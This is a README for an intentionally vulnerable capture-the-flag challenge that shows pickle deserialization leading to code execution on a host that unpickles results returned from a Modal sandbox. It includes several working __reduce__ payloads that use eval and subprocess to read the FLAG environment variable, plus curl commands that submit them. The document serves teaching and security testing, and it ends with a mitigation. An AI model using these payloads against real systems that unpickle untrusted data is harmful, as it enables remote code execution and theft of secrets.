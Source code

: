 # Modal CTF Challenge - Pickle Deserialization Vulnerability

This is a Capture The Flag (CTF) challenge designed to demonstrate and test the security of Modal's sandbox when dealing with pickle deserialization vulnerabilities.

## ⚠️ WARNING
This application is **intentionally vulnerable** for educational and testing purposes. Do not deploy this in a production environment.

## Architecture

This CTF has two components:

1. **Modal Function** (`modal_function.py`): A restricted Modal function that executes Python code in a sandboxed container
2. **Local Server** (`server.py`): A FastAPI server that runs on your VM, accepts HTTP requests, and calls the Modal function

The vulnerability occurs when the local server receives the pickled result from Modal and deserializes it, allowing arbitrary code execution on the host VM.

## Challenge Description

The goal is to capture the flag (stored in the `FLAG` environment variable on the host VM) by exploiting the pickle deserialization vulnerability. User-submitted code runs in a Modal container with restrictions, but the result is pickled and sent back to the host, where it's unpickled - creating the vulnerability.

## Project Structure

```
modal-ctf/
├── modal_function.py    # Modal function (runs in cloud)
├── server.py            # Local FastAPI server (runs on VM)
├── public/
│   └── index.html       # Web interface with CTF instructions
├── requirements.txt     # Python dependencies
├── deploy_modal.sh      # Deploy Modal function to cloud
└── README.md           # This file
```

## Quick Start

### 1. Deploy the Modal Function

```bash
./deploy_modal.sh
```

### 2. Set the FLAG and Start Server

```bash
export FLAG="CTF{your_secret_flag_here}"
./start_docker.sh
```

## Detailed Setup

## API

The server accepts raw Python code as the POST body (not JSON):

```bash
# Simple test
curl -X POST http://localhost/execute -d 'print("Hello"); 42'

# Working exploit - multi-line class definition
curl -X POST http://localhost/execute --data-binary @- <<'EOF'
class FlagExploit:
    def __reduce__(self):
        import os
        return (eval, ("__import__('os').environ.get('FLAG', 'No flag')",))

FlagExploit()
EOF

# One-liner exploit
curl -X POST http://localhost/execute --data-binary @- <<'EOF'
type('E', (), {'__reduce__': lambda s: (eval, ("__import__('subprocess').check_output(['sh', '-c', 'echo -n $FLAG']).decode()",))})()
EOF
```

## How It Works

1. User submits Python code via HTTP POST to `/execute`
2. The server sends the raw code to Modal's sandboxed function
3. Modal executes the code safely in a container
4. Modal pickles the result to send it back
5. **VULNERABILITY**: The server unpickles the result
6. If the object has a malicious `__reduce__` method, it executes on the host

## The Exploit

The vulnerability occurs because Modal pickles/unpickles the result when returning it from the remote function. If the result object has a `__reduce__` method, it gets executed during unpickling on the host.

### Working Exploits

#### Multi-line Class Definition

```python
class FlagExploit:
    def __reduce__(self):
        import os
        return (eval, ("__import__('os').environ.get('FLAG', 'No flag')",))

FlagExploit()
```

#### One-liner Version

```python
# Create a malicious object in a single expression
type('E', (), {'__reduce__': lambda s: (eval, ("__import__('subprocess').check_output(['sh', '-c', 'echo -n $FLAG']).decode()",))})()
```

Both approaches work because:
1. The class has a `__reduce__` method that gets called during unpickling
2. When unpickled on the host, it executes code that has access to the FLAG environment variable
3. The result is returned as part of the JSON response

### Alternative Exploits

```python
# Using subprocess to get the flag
class FlagExploit:
    def __reduce__(self):
        return (eval, ("__import__('subprocess').check_output(['sh', '-c', 'echo -n $FLAG']).decode()",))

FlagExploit()
```

```python
# Writing flag to a file (useful for debugging)
type('E', (), {'__reduce__': lambda s: (__import__('subprocess').call, (['sh', '-c', 'echo "Flag is: $FLAG" > /tmp/ctf_flag.txt'],))})()
```

## Testing

```bash
# Run tests
python3 test_local.py

# Or test with curl
curl -X POST http://localhost:8000/execute -d 'print("test"); 123'
```

## Full Setup Instructions

### Install Dependencies

```bash
pip3 install -r requirements.txt
```

### Authenticate with Modal

```bash
python3 -m modal setup
```

### Deploy Everything

```bash
# Deploy Modal function
./deploy_modal.sh

# Set FLAG and start server
export FLAG="CTF{your_flag_here}"
./start_docker.sh
```

```

## Security Notes

- Modal function has `restrict_modal_access=True` and `block_network=True`
- The container is secure - the vulnerability is in the host's unpickling
- This demonstrates why untrusted data should never be unpickled

## Expected Behavior

- **Container execution**: Code runs as 'root' in Modal container
- **Successful exploit**: Returns the FLAG value from the host VM
- **Host info**: Shows the VM's actual hostname and username

## Mitigation

Your forked `modal-client` should use safe deserialization (JSON) instead of pickle for untrusted data.
